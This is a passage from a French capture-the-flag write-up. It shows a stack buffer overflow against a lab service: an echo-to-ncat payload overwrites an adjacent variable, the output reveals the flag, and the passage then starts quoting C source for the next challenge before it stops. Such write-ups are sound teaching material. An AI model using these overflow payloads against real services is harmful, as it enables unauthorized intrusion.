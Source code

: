 L'objectif pour obtenir le flag désiré est de parvenir à changer la valeur de *FixedVariable*.  

A chaque connexion les adresses de *FixedVariable* et *DestBuffer* nous sont données :  

```plain
$ ncat 192.168.1.64 20000 -v
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.1.64:20000.
FixedVariable @ 0xbfb370a4. DestBuffer @ 0xbfb37094
Please enter text to write to buffer: abcd
Entered text: abcd

FixedVariable value: 0x00000000
Please set FixedVariable to 0x73696854
Ncat: 5 bytes sent, 181 bytes received in 3.08 seconds.
```

Le principe d'exploitation est simple : *DestBuffer* a une taille de 16 octets mais lors de son écrasement par *strncpy* la taille maximale est définie à *MAX\_WRITE\_SIZE* que l'on ne connait pas mais dont on se doute qu'il est suffisamment large pour écraser les autres variables présentes sur la stack frame.  

L'output précédent nous indique qu'il y a 16 octets entre *DestBuffer* et *FixedVariable*, les deux variables sont donc côte à côte.  

Quand à la valeur attendue (*73696854*) il s'agit juste du mot *"This"* en hexadécimal et inversé.  

L'exploitation est triviale :  

```plain
$ echo -en "AAAABBBBCCCCDDDDThis" |  ncat 192.168.1.64 20000 -v
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.1.64:20000.
FixedVariable @ 0xbfb370a4. DestBuffer @ 0xbfb37094
Please enter text to write to buffer: Entered text: AAAABBBBCCCCDDDDThis
FixedVariable value: 0x73696854
Congratulations! Secret key is: CombatBrownieSwell366
Ncat: 20 bytes sent, 211 bytes received in 0.01 seconds.
```

Matt Matt Matt Matt (200 points)
--------------------------------

> Perform a review of the supplied source code for Quick Code Ltd. to identify any vulnerabilities. A server has been set up for you to exploit the identified vulnerabilities for the customer 192.168.1.64:20001

La partie du code divulguée est la suivante :  

```c
#define RESP_PREFIX "Nice to meet you "
#define RANDOM_RANGE 0xFFFFF
void handle_client(int client_socket)
{
    char* memBuf;
    int* pWinning;
    unsigned char socketBuffer[SOCKET_BUFFER_SIZE] = {0};
    char secretKey[256];
    size_t secretLength = 0;
    unsigned char destBuffer[MAX_LEN] = {0};
    int retVal = 0;

    g_client_socket = client_socket;

    memBuf = malloc(RANDOM_RANGE);
    if (memBuf == NULL)
    {
        socket_printf( client_socket, "ERROR: Unable to allocate memory.\n");
        return;
```